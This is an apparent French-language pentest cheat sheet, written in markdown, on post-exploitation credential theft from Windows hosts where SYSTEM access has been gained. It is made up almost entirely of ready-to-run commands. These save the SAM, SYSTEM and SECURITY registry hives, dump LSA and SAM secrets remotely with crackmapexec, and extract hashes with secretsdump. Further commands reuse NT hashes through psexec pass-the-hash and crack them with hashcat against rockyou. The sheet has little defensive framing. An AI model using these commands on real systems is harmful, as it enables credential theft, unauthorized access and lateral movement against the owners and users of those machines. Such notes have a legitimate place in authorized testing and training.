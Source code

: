 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Dump des credentials quand on est system

### Localement
```
reg save hklm\sam sam.save
reg save hklm\system system.save
reg save hklm\security security.save
```

### A distance 

```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --lsa
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --sam
```

## Extraction des Hashs
```
secretdump.py local -sam sam.save -security security.save -system system.save LOCAL
```

## Utilisation des Hash LM:NT
### Accès distant
``` shell 
psexec.py Administratur@$TARGET_IP -hashes xxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxx
# ou
psexec.py Administratur@$TARGET_IP -hashes :xxxxxxxxxxxxxxxxxxxxxxx
```

### Cassage des hashs avec hashcat

```
cat hash.txt
64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
...

sudo hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```
